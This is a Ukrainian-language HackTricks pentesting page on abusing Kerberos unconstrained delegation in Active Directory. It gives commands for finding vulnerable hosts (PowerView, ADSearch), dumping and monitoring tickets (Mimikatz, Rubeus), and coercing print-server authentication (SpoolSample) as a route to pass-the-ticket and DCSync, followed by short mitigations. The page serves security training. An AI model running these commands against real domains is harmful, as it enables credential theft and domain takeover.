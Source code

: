 # Неконтрольована делегація

<details>

<summary><strong>Вивчіть хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Ви працюєте в **кібербезпеці компанії**? Хочете побачити вашу **компанію рекламовану на HackTricks**? або хочете мати доступ до **останньої версії PEASS або завантажити HackTricks у форматі PDF**? Перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Дізнайтеся про [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* **Приєднуйтесь до** [**💬**](https://emojipedia.org/speech-balloon/) [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за мною на **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до [репозиторію hacktricks](https://github.com/carlospolop/hacktricks) та [репозиторію hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Неконтрольована делегація

Це функція, яку Адміністратор домену може встановити на будь-який **Комп'ютер** всередині домену. Після цього, кожного разу, коли **користувач увійде в систему** на Комп'ютер, **копія TGT** цього користувача буде **відправлена всередину TGS**, наданого DC, **та збережена в пам'яті в LSASS**. Таким чином, якщо у вас є привілеї адміністратора на машині, ви зможете **витягти квитки та видаєте себе за користувачів** на будь-якій машині.

Таким чином, якщо адміністратор домену увійшов в систему на Комп'ютері з активованою функцією "Неконтрольована делегація", і у вас є привілеї локального адміністратора на цій машині, ви зможете витягти квиток та видаєте себе за адміністратора домену де завгодно (підвищення привілеїв домену).

Ви можете **знайти об'єкти Комп'ютера з цим атрибутом**, перевіривши, чи містить атрибут [userAccountControl](https://msdn.microsoft.com/en-us/library/ms680832\(v=vs.85\).aspx) [ADS\_UF\_TRUSTED\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300\(v=vs.85\).aspx). Це можна зробити за допомогою фільтра LDAP ' (userAccountControl:1.2.840.113556.1.4.803:=524288)', це те, що робить powerview:

<pre class="language-bash"><code class="lang-bash"># Список комп'ютерів без обмежень
## Powerview
Get-NetComputer -Unconstrained #DCs завжди з'являються, але не є корисними для підвищення привілеїв
<strong>## ADSearch
</strong>ADSearch.exe --search "(&#x26;(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Експорт квитків за допомогою Mimikatz
</strong>privilege::debug
sekurlsa::tickets /export #Рекомендований спосіб
kerberos::list /export #Інший спосіб

# Моніторинг входів та експорт нових квитків
.\Rubeus.exe monitor /targetuser:&#x3C;username> /interval:10 #Перевіряти кожні 10 секунд на нові TGTs</code></pre>

Завантажте квиток Адміністратора (або жертви користувача) в пам'ять за допомогою **Mimikatz** або **Rubeus для** [**Pass the Ticket**](pass-the-ticket.md)**.**\
Додаткова інформація: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**Додаткова інформація про неконтрольовану делегацію на ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Примусова аутентифікація**

Якщо зловмисник може **компрометувати комп'ютер, дозволений для "Неконтрольованої делегації"**, він може **обманути** **Принт-сервер** для **автоматичного входу в систему** проти нього **зберігаючи TGT** в пам'яті сервера.\
Потім зловмисник може виконати **атаку Pass the Ticket для видачі себе за** користувача облікового запису комп'ютера принт-сервера.

Щоб зробити принт-сервер ввійти в систему на будь-яку машину, ви можете використати [**SpoolSample**](https://github.com/leechristensen/SpoolSample):
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
Якщо TGT від контролера домену, ви можете виконати атаку [**DCSync**](acl-persistence-abuse/#dcsync) та отримати всі хеші з DC.\
[**Додаткова інформація про цю атаку на ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**Ось інші способи спроби примусової аутентифікації:**

{% content-ref url="printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](printers-spooler-service-abuse.md)
{% endcontent-ref %}

### Пом'якшення

* Обмежте вхід DA/Admin для конкретних служб
* Встановіть "Обліковий запис є чутливим і не може бути делегованим" для привілейованих облікових записів.
